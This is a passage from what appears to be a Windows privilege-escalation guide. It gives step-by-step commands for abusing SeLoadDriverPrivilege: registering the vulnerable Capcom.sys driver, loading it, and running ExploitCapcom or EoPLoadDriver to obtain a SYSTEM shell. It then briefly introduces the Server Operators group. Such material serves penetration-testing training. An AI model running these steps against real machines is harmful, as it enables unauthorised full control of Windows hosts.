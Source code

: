 Next, download the `Capcom.sys` driver from [here](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys), and save it to **C:\temp**. Issue the commands below to add a reference to this driver under our **HKEY_CURRENT_USER** tree.

```bash
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
```

Using Nirsoft's [DriverView.exe](http://www.nirsoft.net/utils/driverview.html), we can verify that the **Capcom.sys** driver is not loaded.

```powershell
# POWERSHELL
.\DriverView.exe /stext drivers.txt
cat drivers.txt | Select-String -pattern Capcom
```

Run the **EnableSeLoadDriverPrivilege.exe** binary.

```bash
EnableSeLoadDriverPrivilege.exe
```

Next, verify that the Capcom driver is now listed.

```powershell
# POWERSHELL
.\DriverView.exe /stext drivers.txt
cat drivers.txt | Select-String -pattern Capcom
```

To exploit the Capcom.sys, we can use the [ExploitCapcom](https://github.com/tandasat/ExploitCapcom) tool after compiling with it Visual Studio.

```powershell
# POWERSHELL
.\ExploitCapcom.exe
```

#### Automating the Steps 

We can use a tool such as [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/) to automate the process of enabling the privilege, creating the registry key, and executing **NTLoadDriver** to load the driver. To do this, we would run the following:

```bash
EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys
```

We would then run **ExploitCapcom.exe** to pop a SYSTEM shell or run our custom binary.

### Server Operators Group

```powershell
whoami /groups
```

The [Server Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators) group allows members to administer Windows servers without needing assignment of Domain Admin privileges. It is a very highly privileged group that can log in locally to servers, including Domain Controllers.
